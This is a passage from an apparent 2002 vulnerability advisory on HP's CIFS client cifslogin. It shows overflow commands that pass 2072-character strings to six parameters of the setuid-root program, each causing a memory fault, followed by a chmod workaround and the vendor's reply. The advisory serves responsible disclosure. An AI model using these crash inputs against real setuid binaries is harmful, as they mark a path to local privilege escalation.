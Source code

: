     $


    Others Parameters Vulnerables:


    $ /opt/cifsclient/bin/cifslogin -P `perl -e '{print "A"x2072}'`
    Memory fault

    $ /opt/cifsclient/bin/cifslogin -s `perl -e '{print "A"x2072}'`
    Memory fault

    $ /opt/cifsclient/bin/cifslogin -f `perl -e '{print "A"x2072}'`
    Memory fault

    $ /opt/cifsclient/bin/cifslogin -u `perl -e '{print "A"x2072}'`
    Memory fault

    $ /opt/cifsclient/bin/cifslogin -S `perl -e '{print "A"x2072}'`
    Memory fault

    $ /opt/cifsclient/bin/cifslogin -N `perl -e '{print "A"x2072}'`
    Memory fault



    Workaround:
    ===================

    Temporarily remove the suid root or sgid root attribute of cifslogin:


    # chmod a-s /opt/cifsclient/bin/cifslogin




    Vendor Status:
    ==============

    ---
    Contact information:
    e-mail: sharity@obdev.at
    www:    http://www.obdev.at/
    Author: Christian Starkjohann <cs@obdev.at>

    Response:

    Date   Sat, 15 June 2002 8:54:01am
    From   Sharity Support <sharity-support@obdev.at>  Add to address book
    To   <alex_hernandez@ureach.com>


    The /opt/cifsclient/bin/cifslogin program is NOT part of Sharity. This
    is HP's CIFS client. HP has based this client on an old version of
    Sharity which they have licensed.

    I will forward your report to the people at HP who are responsible for
    this software. I'll give credits to you, of course.

    Thanks for reporting this problem!
